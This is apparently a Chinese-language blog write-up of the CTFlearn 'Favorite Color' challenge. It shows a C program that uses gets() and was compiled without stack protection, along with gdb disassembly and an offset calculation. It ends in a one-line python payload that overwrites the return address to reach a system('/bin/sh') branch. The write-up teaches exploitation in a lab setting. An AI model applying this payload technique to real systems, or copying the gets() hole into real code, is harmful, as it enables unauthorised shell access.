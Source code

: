 ```yaml
---
layout: post
title: Favorite Color
categories: writeups
tags: pwn
ctfsite: ctflearn.com
challenge_url: https://ctflearn.com/problems/391
challenge_url_comment: 需要注册登录
---
```


这是一道简单的溢出题。使用题目给出的地址端口和用户名密码，登录到远程服务器中。查看一下目录内容：

![dir]({% asset dir.png %})

`flag.txt` 就在当前目录，但是没有权限读。目录里还提供了源码和 `Makefile`，以及可执行文件 `color`。看来目的就是通过 `color` 的漏洞来读取 `flag.txt` 了。

{% include writeup_begin.html %}

打开看一下 `color.c`：

{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vuln() {
    char buf[32];

    printf("Enter your favorite color: ");
    gets(buf);

    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }

    return good;
}

int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());

    //disable buffering.
    setbuf(stdout, NULL);

    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }
}
{% endhighlight %}

这是一个典型的缓冲区溢出问题。正常情况下，`vuln` 将始终返回 0，导致 `main` 函数始终都执行 `else` 分支。我们的目标是能够执行 `if` 分支。

再看一下 `Makefile`:

{% highlight Makefile linenos %}
        # 省略部分内容 ...
$(prob).o: $(prob).c
        cc -c -m32 -fno-stack-protector $(prob).c
{% endhighlight %}

使用 `-fno-stack-protector` 关闭了栈溢出保护。因此我们可以直接通过覆盖返回地址进行爆破。使用 gdb 反汇编一下 `vuln` 函数：

{% highlight text linenos %}
   0x0804858b <+0>:     push   %ebp
   0x0804858c <+1>:     mov    %esp,%ebp
   0x0804858e <+3>:     sub    $0x38,%esp
   0x08048591 <+6>:     sub    $0xc,%esp
   0x08048594 <+9>:     push   $0x8048730
   0x08048599 <+14>:    call   0x8048410 <printf@plt>
   0x0804859e <+19>:    add    $0x10,%esp
   0x080485a1 <+22>:    sub    $0xc,%esp
   0x080485a4 <+25>:    lea    -0x30(%ebp),%eax
   0x080485a7 <+28>:    push   %eax
   0x080485a8 <+29>:    call   0x8048420 <gets@plt>
   0x080485ad <+34>:    add    $0x10,%esp
   0x080485b0 <+37>:    movl   $0x0,-0xc(%ebp)
   0x080485b7 <+44>:    movl   $0x0,-0x10(%ebp)
   0x080485be <+51>:    jmp    0x80485cb <vuln+64>
   0x080485c0 <+53>:    movl   $0x0,-0xc(%ebp)
   0x080485c7 <+60>:    addl   $0x1,-0x10(%ebp)
   0x080485cb <+64>:    lea    -0x30(%ebp),%edx
   0x080485ce <+67>:    mov    -0x10(%ebp),%eax
   0x080485d1 <+70>:    add    %edx,%eax
   0x080485d3 <+72>:    movzbl (%eax),%eax
   0x080485d6 <+75>:    test   %al,%al
   0x080485d8 <+77>:    jne    0x80485c0 <vuln+53>
   0x080485da <+79>:    mov    -0xc(%ebp),%eax
   0x080485dd <+82>:    leave
   0x080485de <+83>:    ret
{% endhighlight %}

第 9 行可以看到，缓冲区大小为 0x30 即 48 个字节（虽然代码中的数组大小为 32 个字节）。所以我们需要 48 个字节把缓冲区填满，再加 4 个字节覆盖 `ebp`，再 4 个字节覆盖返回地址。返回地址就填进 `if` 分支的开始处，用 gdb 查看一下 `main`：

{% highlight text linenos %}
                        ......
   0x0804864e <+111>:   call   0x804858b <vuln>
   0x08048653 <+116>:   test   %eax,%eax
   0x08048655 <+118>:   je     0x8048689 <main+170>
   0x08048657 <+120>:   sub    $0xc,%esp
   0x0804865a <+123>:   push   $0x804874c
   0x0804865f <+128>:   call   0x8048440 <puts@plt>
   0x08048664 <+133>:   add    $0x10,%esp
   0x08048667 <+136>:   sub    $0xc,%esp
   0x0804866a <+139>:   push   $0x8048774
   0x0804866f <+144>:   call   0x8048440 <puts@plt>
   0x08048674 <+149>:   add    $0x10,%esp
   0x08048677 <+152>:   sub    $0xc,%esp
   0x0804867a <+155>:   push   $0x8048799
   0x0804867f <+160>:   call   0x8048450 <system@plt>
   0x08048684 <+165>:   add    $0x10,%esp
                        ......
{% endhighlight %}

`0x08048657` 就是我们希望的返回地址。因此构造 payload 并传入 `color` 程序:

`(python -c "print '1234567890123456789012345678901234567890123456780000\x57\x86\x04\x08'";cat) | ./color`

至此我们就得到了 shell：

![shell]({% asset shell.jpg %})

`cat` 一下，就可以得到 flag 了。

{% related_note stack-buffer-overflow-101 %}

{% include writeup_end.html %}
